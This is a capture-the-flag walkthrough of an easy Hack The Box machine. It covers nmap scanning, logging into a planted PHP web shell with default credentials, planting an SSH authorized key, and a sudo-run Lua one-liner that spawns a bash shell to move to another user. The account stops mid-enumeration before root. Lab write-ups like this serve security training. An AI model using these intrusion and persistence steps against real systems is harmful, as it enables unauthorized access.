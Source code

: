 ### It was an easy machine from *Hack The Box*

first thing lets use **nmap** to check ip 10.10.10.181
`nmap -sC -sV 10.10.10.181` 

![nmap](https://user-images.githubusercontent.com/36403473/81315494-a9fc6b00-908a-11ea-9d23-782adf27af6a.png)
I found http on port 80 and ssh on port 22.
use should have password to conncet server so lets see http 
i opend source code i found this comment 
`
		<!--Some of the best web shells that you might need ;)-->`

![Screenshot from 2020-05-07 17-49-56](https://user-images.githubusercontent.com/36403473/81316540-feecb100-908b-11ea-94d2-a4b602e0a7b6.png)
 the first thing i do i bruteforce http dircetory by Wfuzz but it take much time , i googled on this comment i found differnt web shells on :
https://github.com/TheBinitGhimire/Web-Shells" 
reading smevk.php
we can login http://10.10.10.181/smevk.php
username:**admin**
password:**admin**

now lets go to this  directory  **/home/webadmin/.ssh** 
![Screenshot from 2020-05-07 18-23-38](https://user-images.githubusercontent.com/36403473/81319780-745a8080-9090-11ea-800a-f18601cdc38f.png)
i could to upload ssh autherizeed key 
to generate ssh keys  
i used  **`ssh-keygen`** tool on linux 
![sshgenerat](https://user-images.githubusercontent.com/36403473/81320041-da470800-9090-11ea-93d7-6956bc5bfdc0.png)
and uplad an autherized key on the server 

so now lets try to login to server:
**`ssh-i id_rsa webadmin@10.10.10.181`**

![serverlogin](https://user-images.githubusercontent.com/36403473/81354095-1303d300-90cb-11ea-8390-6c0b34e6e995.png)


![echo_note](https://user-images.githubusercontent.com/36403473/81354623-61fe3800-90cc-11ea-8ccc-92a912176868.png)
two files was the solution to take user acess **note.txt** & **bash-history**
okey the olny thing we will do write simple lua script and save it on file
**echo 'os.execute(" /bin/bash -i ")' >>block.lua ** 
save it on **block.lua file**

![note script](https://user-images.githubusercontent.com/36403473/81354540-2cf1e580-90cc-11ea-8b80-ff368637bbfb.png)
 okey lets try to acess sysadmin  by block.lua
` sudo -u sysadmin /home/sysadmin/luvit block.lua
`
 go back to home directory 
![acces_system_admin](https://user-images.githubusercontent.com/36403473/81355358-983cb700-90ce-11ea-8a26-2eec59305606.png)
  
now i have access on sysadmin 
checking files `ls -al `

![acces_system_admin](https://user-images.githubusercontent.com/36403473/81357137-287cfb00-90d3-11ea-874e-160c7a63cca7.png)

now i have user access `user.txt`

the last step is to get root access so i searched all files i didnt get any thing 
so i use **`ps -aus`** commmnd  to provide information about the currently running processes .
i notice this directory **` /etc/update-motd.d/`**
going to this directory ckeck all details **`ls -al`**
![not2root](https://user-images.githubusercontent.com/36403473/81357368-ba850380-90d3-11ea-9e74-9ceedefe51cc.png)


